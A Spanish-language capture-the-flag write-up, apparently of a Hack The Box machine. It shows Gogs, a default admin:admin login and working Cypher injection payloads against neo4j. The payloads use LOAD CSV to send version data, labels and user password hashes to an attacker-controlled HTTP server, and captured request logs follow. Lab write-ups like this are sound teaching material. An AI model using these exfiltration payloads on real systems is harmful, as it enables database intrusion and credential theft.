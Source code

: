 Si accedemos por el puerto **3000** vemos un servicio **Gogs**, y por el **8001**, un panel de login de una web interna. Si probamos las credenciales **`admin:admin`**, conseguiremos acceder a un dashboard.

En la sección **employees** veremos un mensaje de una lista de tareas que dice "*Migrated to a new database(neo4j)*", lo que nos da la pista de que se está utilizando la base de datos **neo4j**.

Si hacemos una búsqueda por internet encontraremos que este tipo de BD suele ser sensible a [[Cypher Injection 1]]:

> Cypher Injection is a way for maliciously formatted input to jump out of its context, and by altering the query itself, hijack the query and perform unexpected operations on the database.
> This is a cousin to SQL injection, but affects our Cypher query language.Cypher Injection is a way for maliciously formatted input to jump out of its context, and by altering the query itself, hijack the query and perform unexpected operations on the database.

En [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j), podemos encontrar un listado con posibles inyecciones. Por ejemplo montando un servidor http con [python] y ejecutando la siguiente podemos extraer info. de las versiones:

```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```
```python
10.10.11.210 - - [16/Jul/2023 11:00:39] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

Vamos a tratar de enumerar los *lables* de la base de datos con la siguiente query:

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.54/?label='+label as l RETURN 0 as _0 //
```
```python
10.10.11.210 - - [16/Jul/2023 11:16:30] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:31] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:32] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:32] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:33] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:33] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:34] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:16:34] "GET /?label=employee HTTP/1.1" 200 -
```

Vemos una etiqueta **user**, vamos a tratar de listarla:

```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.54/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
```sql
10.10.11.210 - - [16/Jul/2023 11:18:19] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:20] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:20] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:21] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:21] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:22] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:22] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```